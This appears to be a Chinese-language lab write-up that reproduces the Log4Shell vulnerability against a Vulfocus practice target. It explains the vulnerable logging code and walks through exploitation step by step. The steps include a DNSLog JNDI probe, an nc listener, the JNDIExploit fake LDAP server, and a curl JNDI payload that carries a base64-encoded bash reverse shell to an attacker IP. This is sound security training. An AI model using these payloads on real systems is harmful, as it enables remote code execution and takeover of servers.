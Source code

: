 # Vulfocus复现log4j2(CVE-2021-44228)漏洞实验



## 一.实验环境
* kali2024.3
* Vulfocus
* Docker ：20.10
* Docker-Compose ：1.29
* 漏洞环境：Vulfocus 提供的 Log4j2 漏洞靶场
## 二.实验目的
* 复现 Log4j2 远程代码执行（RCE）漏洞（CVE-2021-44228）
* 利用 JNDI 注入实现远程命令执行
* 探索漏洞利用及防御措施
## 三.实验过程

### 1、环境搭建
* 安装 Docker 和 Docker-Compose
* 安装 Vulfocus
* Vulfocus Web 界面启动该靶场。

  ![alt text](./images/image.png)

  访问地址`访问地址: 192.168.56.121:36795`

  ![alt text](./images/image-1.png)



### 2、log4j2漏洞复现
#### （1）、log4j2漏洞原理
 
CVE-2021-44228（Log4Shell）是 Apache Log4j2 组件中的一个 远程代码执行（RCE）漏洞。该漏洞允许攻击者通过 JNDI 注入，利用 LDAP 服务器 加载远程恶意代码，从而在目标服务器上执行任意代码。主要影响的版本为Log4j 2.0-beta9 ~ 2.14.1
#### （2）、检测漏洞存在性
* 方法一：确认受漏洞影响组件的版本号，此漏洞主要影响的版本为Log4j 2.0-beta9 ~ 2.14.1
  * 查看容器名称
     ```
     docker ps

     ```
     ![alt text](./images/image-2.png)

  * 进入容器Shell`docker exec -it cool_gould /bin/bash`
  * 下载demo.jar文件到本地并查看`docker cp 19ea57acca57:/demo/demo.jar ~/Downloads/`
  很明显看到此log4j2的版本为2.14.0，属于漏洞版本

    ![alt text](./images/image-3.png)
* 方法二：反汇编dome.jar文件，找到漏洞代码并定位到其中的传递参数（`log4j2逆向`）
   * 下载Java Decompiler反汇编工具`https://java-decompiler.github.io/`
   * 使用Java Decompiler反汇编工具对demo.jar文件进行反汇编，并查看其中的代码
   
     ![alt text](./images/image-7.png)
   * **漏洞代码分析**：
      *   在以下代码中`payload` 变量直接传递到 `logger` 进行日志记录。没有进行任何过滤，意味着如果 `payload` 是恶意 `JNDI `语句，Log4j2 会执行 JNDI 解析。导致攻击者可以构造恶意 ${jndi:ldap://...} 语句，让服务器远程加载并执行恶意代码，最终实现 远程代码执行（RCE）。
     ```
      logger.error("{}", payload);
      logger.info("{}", payload);
      logger.info(payload);
      logger.error(payload);
     ```
     * 这两行代码 明确 开启了 JNDI 远程加载。JNDI 本应默认不允许加载远程代码，但这里强行启用了该功能，使漏洞更容易被利用。
     
      ```
       System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
       System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

       ```
* 方法三：（使用 PoC 手动测试 ${jndi:ldap://0qxc3d.dnslog.cn/exp}）
  * **使用此方法的优点**：DNSLog 提供了一个 唯一的子域名，可以用来监听 目标服务器是否解析了我们提供的 JNDI 网址。并且无需搭建服务器，只需要获取 一个随机子域名，目标服务器如果解析它，我们就可以在 DNSLog 平台上看到记录，证明目标可能存在漏洞。
  * 获取 DNSLog 专属子域名：访问 DNSLog 平台：`http://dnslog.cn/`点击 `“获取子域名”`，它会生成一个唯一的随机子域，`i6dryn.dnslog.cn`

  ![alt text](./images/image-4.png)
  * 构造无害 `Payload`，向靶机发送包含 JNDI 协议的恶意 JNDI 载荷，触发 DNS 解析
   `curl 'http://192.168.56.121:39327/hello' -G --data-urlencode 'payload=${jndi:dns://i6dryn.dnslog.cn}'`

    ![alt text](./images/image-5.png)
   * 访问 DNSLog 平台，查看解析记录，目标服务器的 Log4j 解析了 {jndi:dns://i6dryn.dnslog.cn}'`并尝试访  问 LDAP 服务器。访问 `i6dryn.dnslog.cn` 说明目标服务器被成功诱导解析，这证明 Log4j2 可能存在漏洞。

    ![alt text](./images/image-6.png)

#### （3）、漏洞可利用性验证
##### <1>、下载JNDIExploit.v1.2 Java 反序列化漏洞利用工具，并解压
`wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip `
  
![alt text](./images/image-11.png)


##### <2>、在在攻击者机器（ 192.168.56.123）上运行：
`nc -l -p 7777`它会在 端口 7777 上监听 传入的连接。此时，如果目标服务器反向连接到这个端口，攻击者就可以获取远程shell 访问权限。



##### <3>、启动 JNDIExploit 工具，伪造一个 LDAP/RMI 服务器
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.123`
该命令用于 启动 JNDIExploit 工具，伪造一个 LDAP 服务器，监听 IP 192.168.56.123，以便利用 Java 应用程序的 JNDI 注入漏洞（如 Log4Shell）。当目标服务器解析特定 JNDI 语句（如 ${jndi:ldap://192.168.56.123:1389/Exploit}）时，会从该伪造服务器加载恶意代码，从而实现远程代码执行（RCE）或反向 shell 攻击。

##### <4>、发送 GET 请求， 触发 JNDI 注入漏洞
该命令通过 curl 发送 GET 请求，尝试在目标服务器 `192.168.56.121:30815` 触发 JNDI 注入漏洞，并让目标服务器从攻击者的 伪造 LDAP 服务器 (`192.168.56.123:1389`) 下载并执行恶意代码。
```
curl -G http://192.168.56.121:30815/hello --data-urlencode 'payload=${jndi:ldap://192.168.56.123:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.56.123/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'

```
![alt text](./images/image-13.png)
##### <5>、当发送get请求后，可以看到让目标服务器通过 LDAP 服务器下载 Base64 编码的反向 shell，从而远程控制目标机器
![alt text](./images/image-14.png)
##### <6>、在攻击者主机中输入`ls /tmp`显示靶机的flag，将flag输入vulfocus中，成功完成漏洞可利用性验证
![alt text](./images/image-15.png)

![alt text](./images/image-12.png)

#### 3、log4j2逆向（见漏洞存在性检测方法二）


 
